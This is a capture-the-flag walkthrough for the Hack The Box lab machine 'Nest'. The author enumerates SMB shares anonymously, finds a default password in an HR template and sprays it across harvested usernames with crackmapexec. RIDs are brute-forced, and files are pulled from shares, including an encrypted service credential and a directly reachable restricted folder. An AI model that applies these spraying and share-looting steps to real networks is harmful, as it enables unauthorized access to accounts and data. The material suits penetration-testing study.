



# Nest
https://app.hackthebox.com/machines/225

Target IP
10.10.10.178

## Enumeration
---

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).
```
sudo $(which autorecon) 10.10.10.178 --dirbuster.wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### Nmap


```
PORT     STATE SERVICE       REASON          VERSION
445/tcp  open  microsoft-ds? syn-ack ttl 127
4386/tcp open  unknown       syn-ack ttl 127
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, SSLv23SessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Hello, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>
```


### Port 4386

```
$ nc  10.10.10.178 4386
HQK Reporting Service V1.2
>
```

```
$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>HELP

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  COMPARISONS
[1]   Invoices (Ordered By Customer)
[2]   Products Sold (Ordered By Customer)
[3]   Products Sold In Last 30 Days

Current Directory: ALL QUERIES
>
```


```
>HELP DUBUG

Unrecognised command specified for HELP command
>HELP DEBUG


DEBUG <Password>
Enables debug mode, which allows the use of additional commands to use for troubleshooting network and configuration issues. Requires a password which will be set by your system administrator when the service was installed

Examples: 
DEBUG MyPassw0rd     Attempts to enable debug mode by using the
                     password "MyPassw0rd"

>DEBUG MyPass0rd

Invalid password entered
```


### POrt 445

```
$ crackmapexec smb 10.10.10.178 -u '' -p '' --shares          
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\: STATUS_ACCESS_DENIED 
SMB         10.10.10.178    445    HTB-NEST         [-] Error enumerating shares: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
```


```
$ crackmapexec smb 10.10.10.178 -u 'anonymous' -p '' --shares
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\anonymous: 
SMB         10.10.10.178    445    HTB-NEST         [+] Enumerated shares
SMB         10.10.10.178    445    HTB-NEST         Share           Permissions     Remark
SMB         10.10.10.178    445    HTB-NEST         -----           -----------     ------
SMB         10.10.10.178    445    HTB-NEST         ADMIN$                          Remote Admin
SMB         10.10.10.178    445    HTB-NEST         C$                              Default share
SMB         10.10.10.178    445    HTB-NEST         Data            READ            
SMB         10.10.10.178    445    HTB-NEST         IPC$                            Remote IPC
SMB         10.10.10.178    445    HTB-NEST         Secure$                         
SMB         10.10.10.178    445    HTB-NEST         Users           READ
```

```
$ smbmap -u 'anonymous' -p '' -H 10.10.10.178    
[+] Guest session       IP: 10.10.10.178:445    Name: 10.10.10.178                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        Secure$                                                 NO ACCESS
        Users                                                   READ ONLY
```


```
$ smbclient //10.10.10.178/Users -N 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan 25 15:04:21 2020
  ..                                  D        0  Sat Jan 25 15:04:21 2020
  Administrator                       D        0  Fri Aug  9 08:08:23 2019
  C.Smith                             D        0  Sat Jan 25 23:21:44 2020
  L.Frost                             D        0  Thu Aug  8 10:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 10:02:50 2019
  TempUser                            D        0  Wed Aug  7 15:55:56 2019

                5242623 blocks of size 4096. 1840001 blocks available
```


```
$ smbclient //10.10.10.178/Data -N                
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug  7 15:53:46 2019
  ..                                  D        0  Wed Aug  7 15:53:46 2019
  IT                                  D        0  Wed Aug  7 15:58:07 2019
  Production                          D        0  Mon Aug  5 14:53:38 2019
  Reports                             D        0  Mon Aug  5 14:53:44 2019
  Shared                              D        0  Wed Aug  7 12:07:51 2019

                5242623 blocks of size 4096. 1839999 blocks available
smb: \> cd Shared\
smb: \Shared\> recurse ON
smb: \Shared\> prompt OFF
smb: \Shared\> mget *
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Maintenance/Maintenance Alerts.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Templates/HR/Welcome Email.txt (1.3 KiloBytes/sec) (average 0.8 KiloBytes/sec)
```


```
 cat Templates/HR/Welcome\ Email.txt    
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location: 
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the 
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
HR
```

```
$ cat users.txt                                                                    
Administrator
C.Smith
L.Frost
R.Thompson
TempUser
```

```
$ cat passwords.txt 
welcome2019
```

```
$ crackmapexec smb 10.10.10.178 -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\Administrator:welcome2019 STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\C.Smith:welcome2019 STATUS_LOGON_FAILURE 
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\L.Frost:welcome2019 
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\R.Thompson:welcome2019 
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\TempUser:welcome2019 
```


```
$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG welcome2019

Invalid password entered
>
```

```
$ crackmapexec smb 10.10.10.178 -u 'L.Frost' -p 'welcome2019' --rid-brute 
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\L.Frost:welcome2019 
SMB         10.10.10.178    445    HTB-NEST         [+] Brute forcing RIDs
SMB         10.10.10.178    445    HTB-NEST         500: HTB-NEST\Administrator (SidTypeUser)
SMB         10.10.10.178    445    HTB-NEST         501: HTB-NEST\Guest (SidTypeUser)
SMB         10.10.10.178    445    HTB-NEST         513: HTB-NEST\None (SidTypeGroup)
SMB         10.10.10.178    445    HTB-NEST         1002: HTB-NEST\TempUser (SidTypeUser)
SMB         10.10.10.178    445    HTB-NEST         1004: HTB-NEST\C.Smith (SidTypeUser)
SMB         10.10.10.178    445    HTB-NEST         1005: HTB-NEST\Service_HQK (SidTypeUser)
```

```
$ crackmapexec smb 10.10.10.178 -u 'Service_HQK' -p 'welcome2019'            
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [-] HTB-NEST\Service_HQK:welcome2019 STATUS_LOGON_FAILURE 
```


```
$ smbclient //10.10.10.178/Data -U 'TempUser' --password 'welcome2019'
Try "help" to get a list of possible commands.
smb: \> recurse ON
smb: \> ls
  .                                   D        0  Wed Aug  7 15:53:46 2019
  ..                                  D        0  Wed Aug  7 15:53:46 2019
  IT                                  D        0  Wed Aug  7 15:58:07 2019
  Production                          D        0  Mon Aug  5 14:53:38 2019
  Reports                             D        0  Mon Aug  5 14:53:44 2019
  Shared                              D        0  Wed Aug  7 12:07:51 2019

\IT
  .                                   D        0  Wed Aug  7 15:58:07 2019
  ..                                  D        0  Wed Aug  7 15:58:07 2019
  Archive                             D        0  Mon Aug  5 15:33:58 2019
  Configs                             D        0  Wed Aug  7 15:59:34 2019
  Installs                            D        0  Wed Aug  7 15:08:30 2019
  Reports                             D        0  Sat Jan 25 16:09:13 2020
  Tools                               D        0  Mon Aug  5 15:33:43 2019

\Production
  .                                   D        0  Mon Aug  5 14:53:38 2019
  ..                                  D        0  Mon Aug  5 14:53:38 2019

\Reports
  .                                   D        0  Mon Aug  5 14:53:44 2019
  ..                                  D        0  Mon Aug  5 14:53:44 2019

\Shared
  .                                   D        0  Wed Aug  7 12:07:51 2019
  ..                                  D        0  Wed Aug  7 12:07:51 2019
  Maintenance                         D        0  Wed Aug  7 12:07:32 2019
  Templates                           D        0  Wed Aug  7 12:08:07 2019

\IT\Archive
  .                                   D        0  Mon Aug  5 15:33:58 2019
  ..                                  D        0  Mon Aug  5 15:33:58 2019

\IT\Configs
  .                                   D        0  Wed Aug  7 15:59:34 2019
  ..                                  D        0  Wed Aug  7 15:59:34 2019
  Adobe                               D        0  Wed Aug  7 12:20:09 2019
  Atlas                               D        0  Tue Aug  6 04:16:18 2019
  DLink                               D        0  Tue Aug  6 06:25:27 2019
  Microsoft                           D        0  Wed Aug  7 12:23:26 2019
  NotepadPlusPlus                     D        0  Wed Aug  7 12:31:37 2019
  RU Scanner                          D        0  Wed Aug  7 13:01:13 2019
  Server Manager                      D        0  Tue Aug  6 06:25:19 2019

\IT\Installs
  .                                   D        0  Wed Aug  7 15:08:30 2019
  ..                                  D        0  Wed Aug  7 15:08:30 2019

\IT\Reports
  .                                   D        0  Sat Jan 25 16:09:13 2020
  ..                                  D        0  Sat Jan 25 16:09:13 2020

\IT\Tools
  .                                   D        0  Mon Aug  5 15:33:43 2019
  ..                                  D        0  Mon Aug  5 15:33:43 2019

\Shared\Maintenance
  .                                   D        0  Wed Aug  7 12:07:32 2019
  ..                                  D        0  Wed Aug  7 12:07:32 2019
  Maintenance Alerts.txt              A       48  Mon Aug  5 16:01:44 2019

\Shared\Templates
  .                                   D        0  Wed Aug  7 12:08:07 2019
  ..                                  D        0  Wed Aug  7 12:08:07 2019
  HR                                  D        0  Wed Aug  7 12:08:01 2019
  Marketing                           D        0  Wed Aug  7 12:08:06 2019

\IT\Configs\Adobe
  .                                   D        0  Wed Aug  7 12:20:09 2019
  ..                                  D        0  Wed Aug  7 12:20:09 2019
  editing.xml                        AH      246  Sat Aug  3 05:58:42 2019
  Options.txt                         A        0  Mon Oct 10 14:11:14 2011
  projects.xml                        A      258  Tue Jan  8 08:30:52 2013
  settings.xml                        A     1274  Wed Aug  7 12:19:12 2019

\IT\Configs\Atlas
  .                                   D        0  Tue Aug  6 04:16:18 2019
  ..                                  D        0  Tue Aug  6 04:16:18 2019
  Temp.XML                           An     1369  Wed Jun 11 00:38:22 2003

\IT\Configs\DLink
  .                                   D        0  Tue Aug  6 06:25:27 2019
  ..                                  D        0  Tue Aug  6 06:25:27 2019

\IT\Configs\Microsoft
  .                                   D        0  Wed Aug  7 12:23:26 2019
  ..                                  D        0  Wed Aug  7 12:23:26 2019
  Options.xml                         A     4598  Sat Mar  3 11:24:24 2012

\IT\Configs\NotepadPlusPlus
  .                                   D        0  Wed Aug  7 12:31:37 2019
  ..                                  D        0  Wed Aug  7 12:31:37 2019
  config.xml                          A     6451  Wed Aug  7 16:01:25 2019
  shortcuts.xml                       A     2108  Wed Aug  7 12:30:27 2019

\IT\Configs\RU Scanner
  .                                   D        0  Wed Aug  7 13:01:13 2019
  ..                                  D        0  Wed Aug  7 13:01:13 2019
  RU_config.xml                       A      270  Thu Aug  8 12:49:37 2019

\IT\Configs\Server Manager
  .                                   D        0  Tue Aug  6 06:25:19 2019
  ..                                  D        0  Tue Aug  6 06:25:19 2019

\Shared\Templates\HR
  .                                   D        0  Wed Aug  7 12:08:01 2019
  ..                                  D        0  Wed Aug  7 12:08:01 2019
  Welcome Email.txt                   A      425  Wed Aug  7 15:55:36 2019

\Shared\Templates\Marketing
  .                                   D        0  Wed Aug  7 12:08:06 2019
  ..                                  D        0  Wed Aug  7 12:08:06 2019

                5242623 blocks of size 4096. 1839999 blocks available
```


```
$ smbclient //10.10.10.178/Data -U 'TempUser' --password 'welcome2019'
Try "help" to get a list of possible commands.
smb: \> cd IT\
smb: \IT\> ls
  .                                   D        0  Wed Aug  7 15:58:07 2019
  ..                                  D        0  Wed Aug  7 15:58:07 2019
  Archive                             D        0  Mon Aug  5 15:33:58 2019
  Configs                             D        0  Wed Aug  7 15:59:34 2019
  Installs                            D        0  Wed Aug  7 15:08:30 2019
  Reports                             D        0  Sat Jan 25 16:09:13 2020
  Tools                               D        0  Mon Aug  5 15:33:43 2019

                5242623 blocks of size 4096. 1839871 blocks available
smb: \IT\> cd ..
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
getting file \Shared\Maintenance\Maintenance Alerts.txt of size 48 as Shared/Maintenance/Maintenance Alerts.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \IT\Configs\Adobe\editing.xml of size 246 as IT/Configs/Adobe/editing.xml (0.8 KiloBytes/sec) (average 0.5 KiloBytes/sec)
getting file \IT\Configs\Adobe\Options.txt of size 0 as IT/Configs/Adobe/Options.txt (0.0 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \IT\Configs\Adobe\projects.xml of size 258 as IT/Configs/Adobe/projects.xml (0.9 KiloBytes/sec) (average 0.5 KiloBytes/sec)
getting file \IT\Configs\Adobe\settings.xml of size 1274 as IT/Configs/Adobe/settings.xml (4.0 KiloBytes/sec) (average 1.2 KiloBytes/sec)
getting file \IT\Configs\Atlas\Temp.XML of size 1369 as IT/Configs/Atlas/Temp.XML (4.4 KiloBytes/sec) (average 1.8 KiloBytes/sec)
getting file \IT\Configs\Microsoft\Options.xml of size 4598 as IT/Configs/Microsoft/Options.xml (15.0 KiloBytes/sec) (average 3.7 KiloBytes/sec)
getting file \IT\Configs\NotepadPlusPlus\config.xml of size 6451 as IT/Configs/NotepadPlusPlus/config.xml (20.7 KiloBytes/sec) (average 5.9 KiloBytes/sec)
getting file \IT\Configs\NotepadPlusPlus\shortcuts.xml of size 2108 as IT/Configs/NotepadPlusPlus/shortcuts.xml (7.0 KiloBytes/sec) (average 6.0 KiloBytes/sec)
getting file \IT\Configs\RU Scanner\RU_config.xml of size 270 as IT/Configs/RU Scanner/RU_config.xml (0.9 KiloBytes/sec) (average 5.5 KiloBytes/sec)
getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Shared/Templates/HR/Welcome Email.txt (1.4 KiloBytes/sec) (average 5.1 KiloBytes/sec)
```


```
$ cat IT/Configs/RU\ Scanner/RU_config.xml    
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```


```
$ echo -n 'fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=' | base64 -d
}13��=X�J�BA�X*�Wc�f���?βc
```

Another interesting file
```
$ cat IT/Configs/NotepadPlusPlus/config.xml 
<?xml version="1.0" encoding="Windows-1252" ?>
<NotepadPlus>
    <GUIConfigs>
...
    </FindHistory>
    <History nbMaxFile="15" inSubMenu="no" customLength="-1">
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
    </History>
</NotepadPlus>
```
Who can access this share? `\\HTB-NEST\Secure$\IT\Carl\Temp.txt`


```
$ crackmapexec smb 10.10.10.178 -u 'TempUser' -p 'welcome2019' --shares
SMB         10.10.10.178    445    HTB-NEST         [*] Windows 6.1 Build 7601 (name:HTB-NEST) (domain:HTB-NEST) (signing:False) (SMBv1:False)
SMB         10.10.10.178    445    HTB-NEST         [+] HTB-NEST\TempUser:welcome2019 
SMB         10.10.10.178    445    HTB-NEST         [+] Enumerated shares
SMB         10.10.10.178    445    HTB-NEST         Share           Permissions     Remark
SMB         10.10.10.178    445    HTB-NEST         -----           -----------     ------
SMB         10.10.10.178    445    HTB-NEST         ADMIN$                          Remote Admin
SMB         10.10.10.178    445    HTB-NEST         C$                              Default share
SMB         10.10.10.178    445    HTB-NEST         Data            READ            
SMB         10.10.10.178    445    HTB-NEST         IPC$                            Remote IPC
SMB         10.10.10.178    445    HTB-NEST         Secure$         READ            
SMB         10.10.10.178    445    HTB-NEST         Users           READ 
```

`TempUser` is not able to list any file
```
$ smbclient //10.10.10.178/Secure$ -U 'TempUser' --password 'welcome2019'
Try "help" to get a list of possible commands.
smb: \> recurse ON
smb: \> prompt OFF
smb: \> ls
  .                                   D        0  Wed Aug  7 16:08:12 2019
  ..                                  D        0  Wed Aug  7 16:08:12 2019
  Finance                             D        0  Wed Aug  7 12:40:13 2019
  HR                                  D        0  Wed Aug  7 16:08:11 2019
  IT                                  D        0  Thu Aug  8 03:59:25 2019

\Finance
NT_STATUS_ACCESS_DENIED listing \Finance\*

\HR
NT_STATUS_ACCESS_DENIED listing \HR\*

\IT
NT_STATUS_ACCESS_DENIED listing \IT\*
```

However if we try to go direct to `IT/Carl` directory we have access
```
smb: \> cd IT\Carl\
smb: \IT\Carl\> ls
  .                                   D        0  Wed Aug  7 12:42:14 2019
  ..                                  D        0  Wed Aug  7 12:42:14 2019
  Docs                                D        0  Wed Aug  7 12:44:00 2019
  Reports                             D        0  Tue Aug  6 06:45:40 2019
  VB Projects                         D        0  Tue Aug  6 07:41:55 2019

\IT\Carl\Docs
  .                                   D        0  Wed Aug  7 12:44:00 2019
  ..                                  D        0  Wed Aug  7 12:44:00 2019
  ip.txt                              A       56  Wed Aug  7 12:44:16 2019
  mmc.txt                             A       73  Wed Aug  7 12:43:42 2019

\IT\Carl\Reports
  .                                   D        0  Tue Aug  6 06:45:40 2019
  ..                                  D        0  Tue Aug  6 06:45:40 2019

\IT\Carl\VB Projects
  .                                   D        0  Tue Aug  6 07:41:55 2019
  ..                                  D        0  Tue Aug  6 07:41:55 2019
  Production                          D        0  Tue Aug  6 07:07:13 2019
  WIP                                 D        0  Tue Aug  6 07:47:41 2019

\IT\Carl\VB Projects\Production
  .                                   D        0  Tue Aug  6 07:07:13 2019
  ..                                  D        0  Tue Aug  6 07:07:13 2019

\IT\Carl\VB Projects\WIP
  .                                   D        0  Tue Aug  6 07:47:41 2019
  ..                                  D        0  Tue Aug  6 07:47:41 2019
  RU                                  D        0  Fri Aug  9 08:36:45 2019

\IT\Carl\VB Projects\WIP\RU
  .                                   D        0  Fri Aug  9 08:36:45 2019
  ..                                  D        0  Fri Aug  9 08:36:45 2019
  RUScanner                           D        0  Wed Aug  7 15:05:54 2019
  RUScanner.sln                       A      871  Tue Aug  6 07:45:36 2019

\IT\Carl\VB Projects\WIP\RU\RUScanner
  .                                   D        0  Wed Aug  7 15:05:54 2019
  ..                                  D        0  Wed Aug  7 15:05:54 2019
  bin                                 D        0  Wed Aug  7 13:00:11 2019
  ConfigFile.vb                       A      772  Wed Aug  7 15:05:09 2019
  Module1.vb                          A      279  Wed Aug  7 15:05:44 2019
  My Project                          D        0  Wed Aug  7 13:00:11 2019
  obj                                 D        0  Wed Aug  7 13:00:11 2019
  RU Scanner.vbproj                   A     4828  Fri Aug  9 08:37:51 2019
  RU Scanner.vbproj.user              A      143  Tue Aug  6 05:55:27 2019
  SsoIntegration.vb                   A      133  Wed Aug  7 15:05:58 2019
  Utils.vb                            A     4888  Wed Aug  7 12:49:35 2019

\IT\Carl\VB Projects\WIP\RU\RUScanner\bin
  .                                   D        0  Wed Aug  7 13:00:11 2019
  ..                                  D        0  Wed Aug  7 13:00:11 2019
  Debug                               D        0  Wed Aug  7 12:59:13 2019
  Release                             D        0  Tue Aug  6 05:55:26 2019

\IT\Carl\VB Projects\WIP\RU\RUScanner\My Project
  .                                   D        0  Wed Aug  7 13:00:11 2019
  ..                                  D        0  Wed Aug  7 13:00:11 2019
  Application.Designer.vb             A      441  Tue Aug  6 05:55:13 2019
  Application.myapp                   A      481  Tue Aug  6 05:55:13 2019
  AssemblyInfo.vb                     A     1163  Tue Aug  6 05:55:13 2019
  Resources.Designer.vb               A     2776  Tue Aug  6 05:55:13 2019
  Resources.resx                      A     5612  Tue Aug  6 05:55:13 2019
  Settings.Designer.vb                A     2989  Tue Aug  6 05:55:13 2019
  Settings.settings                   A      279  Tue Aug  6 05:55:13 2019

\IT\Carl\VB Projects\WIP\RU\RUScanner\obj
  .                                   D        0  Wed Aug  7 13:00:11 2019
  ..                                  D        0  Wed Aug  7 13:00:11 2019
  x86                                 D        0  Wed Aug  7 12:59:18 2019

\IT\Carl\VB Projects\WIP\RU\RUScanner\bin\Debug
  .                                   D        0  Wed Aug  7 12:59:13 2019
  ..                                  D        0  Wed Aug  7 12:59:13 2019

\IT\Carl\VB Projects\WIP\RU\RUScanner\bin\Release
  .                                   D        0  Tue Aug  6 05:55:26 2019
  ..                                  D        0  Tue Aug  6 05:55:26 2019

\IT\Carl\VB Projects\WIP\RU\RUScanner\obj\x86
  .                                   D        0  Wed Aug  7 12:59:18 2019
  ..                                  D        0  Wed Aug  7 12:59:18 2019

                5242623 blocks of size 4096. 1839992 blocks available
```

Let's get everything we can.
```
smb: \IT\Carl\> mget *
getting file \IT\Carl\Docs\ip.txt of size 56 as Docs/ip.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \IT\Carl\Docs\mmc.txt of size 73 as Docs/mmc.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner.sln of size 871 as VB Projects/WIP/RU/RUScanner.sln (2.8 KiloBytes/sec) (average 1.1 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\ConfigFile.vb of size 772 as VB Projects/WIP/RU/RUScanner/ConfigFile.vb (2.4 KiloBytes/sec) (average 1.4 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\Module1.vb of size 279 as VB Projects/WIP/RU/RUScanner/Module1.vb (0.9 KiloBytes/sec) (average 1.3 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\RU Scanner.vbproj of size 4828 as VB Projects/WIP/RU/RUScanner/RU Scanner.vbproj (15.7 KiloBytes/sec) (average 3.7 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\RU Scanner.vbproj.user of size 143 as VB Projects/WIP/RU/RUScanner/RU Scanner.vbproj.user (0.5 KiloBytes/sec) (average 3.2 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\SsoIntegration.vb of size 133 as VB Projects/WIP/RU/RUScanner/SsoIntegration.vb (0.4 KiloBytes/sec) (average 2.9 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\Utils.vb of size 4888 as VB Projects/WIP/RU/RUScanner/Utils.vb (15.7 KiloBytes/sec) (average 4.3 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.Designer.vb of size 441 as VB Projects/WIP/RU/RUScanner/My Project/Application.Designer.vb (1.4 KiloBytes/sec) (average 4.0 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Application.myapp of size 481 as VB Projects/WIP/RU/RUScanner/My Project/Application.myapp (1.6 KiloBytes/sec) (average 3.8 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\AssemblyInfo.vb of size 1163 as VB Projects/WIP/RU/RUScanner/My Project/AssemblyInfo.vb (3.7 KiloBytes/sec) (average 3.8 KiloBytes/sec)
getting file \IT\Carl\VB Projects\WIP\RU\RUScanner\My Project\Resources.Designer.vb of size 2776 as VB Projects/WIP/RU/RUScanner/My Project/Resources.Designer.vb (9.0 KiloBytes/sec) (average 4.2 KiloBytes/sec)
